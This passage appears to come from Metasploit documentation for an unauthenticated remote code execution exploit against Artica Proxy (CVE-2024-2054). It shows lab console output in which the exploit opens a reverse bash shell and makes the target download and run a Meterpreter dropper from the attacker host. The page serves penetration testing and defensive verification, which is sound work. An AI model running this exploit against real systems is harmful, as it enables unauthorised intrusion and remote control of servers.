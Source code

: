 ```msf
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 1
target => 1
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Command shell session 16 opened (192.168.201.8:4444 -> 192.168.201.4:46286) at 2024-03-15 17:48:40 +0000

uname -a
Linux artica-applianc 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Target 2 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```msf
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 2
target => 2
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:1981/U835crbue3yBo
[*] Client 192.168.201.4 (Wget/1.20.1 (linux-gnu)) requested /U835crbue3yBo
[*] Sending payload to 192.168.201.4 (Wget/1.20.1 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.201.4
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Meterpreter session 17 opened (192.168.201.8:4444 -> 192.168.201.4:35246) at 2024-03-15 17:50:04 +0000
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : artica-applianc.domain.tld
OS           : Debian 10.13 (Linux 4.19.0-24-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```

## Limitations
No limitations.
